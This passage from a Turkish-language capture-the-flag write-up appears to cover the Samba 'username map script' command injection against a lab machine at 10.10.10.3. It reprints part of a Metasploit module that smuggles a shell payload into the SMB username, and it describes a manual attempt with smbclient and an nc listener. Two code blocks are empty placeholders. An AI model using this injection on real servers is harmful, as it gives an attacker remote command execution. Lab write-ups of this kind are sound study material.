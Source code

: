 ```
                                [
                                        [ "Automatic", { } ]
                                ],
                        'DefaultTarget'  => 0,
                        'DisclosureDate' => 'May 14 2007'))

                register_options(
                        [
                                Opt::RPORT(139)
                        ], self.class)
        end


        def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end

end
```


Önemli kısım en alttaki ==def exploit'te==. kullanarak bir SMB oturumu oluşturuyor:

{{CODE_BLOCK_8}}


{{CODE_BLOCK_9}}


#### smbclient Fails

Bunu smbclient ile deneyeceğim. 443'te bir nc listener başlatacağım. Paylaşıma smbclient //10.10.10.3/tmp kullanarak bağlanabiliyorum. Önce bir kullanıcı belirtmeyi denedim:

![Pasted image 20250205204058.png](/img/user/Pasted%20image%2020250205204058.png)

![Pasted image 20250205204359.png](/img/user/Pasted%20image%2020250205204359.png)

listener'la bir bağlantı kurdum:

![Pasted image 20250205204407.png](/img/user/Pasted%20image%2020250205204407.png)

